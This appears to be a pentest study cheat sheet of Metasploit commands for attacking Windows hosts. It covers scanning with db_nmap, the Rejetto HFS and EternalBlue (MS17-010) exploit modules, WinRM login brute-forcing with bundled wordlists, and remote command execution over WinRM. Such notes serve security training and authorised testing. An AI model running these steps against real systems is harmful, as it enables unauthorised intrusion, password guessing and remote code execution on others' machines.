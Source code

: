 ### Win Exploitation

#### Default MSF Start

```bash
service postgresql start && msfconsole -q
```

```bash
db_status
setg RHOSTS <TARGET_IP>
setg RHOST <TARGET_IP>
workspace -a <SERVICE_NAME>
db_nmap -sS -sV -O <TARGET_IP>
# db_nmap -sS -sV -O -p- <TARGET_IP>

# For every exploit, check 'options' and 'info', setup accordingly
```

#### HFS

```bash
# HFS
search type:exploit name:rejetto
use exploit/windows/http/rejetto_hfs_exec
```

#### SMB

```bash
# SMB
search type:auxiliary EternalBlue
use auxiliary/scanner/smb/smb_ms17_010
use exploit/windows/smb/ms17_010_eternalblue
```

#### WINRM

```bash
# WinRM
search type:auxiliary winrm
use auxiliary/scanner/winrm/winrm_auth_methods

# Brute force WinRM login
search winrm_login
use auxiliary/scanner/winrm/winrm_login
set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt

# Launch command
search winrm_cmd
use auxiliary/scanner/winrm/winrm_cmd
set USERNAME <USER>
set PASSWORD <PW>
set CMD whoami

search winrm_script
use exploit/windows/winrm/winrm_script_exec
set USERNAME <USER>
set PASSWORD <PW>
set FORCE_VBS true
```
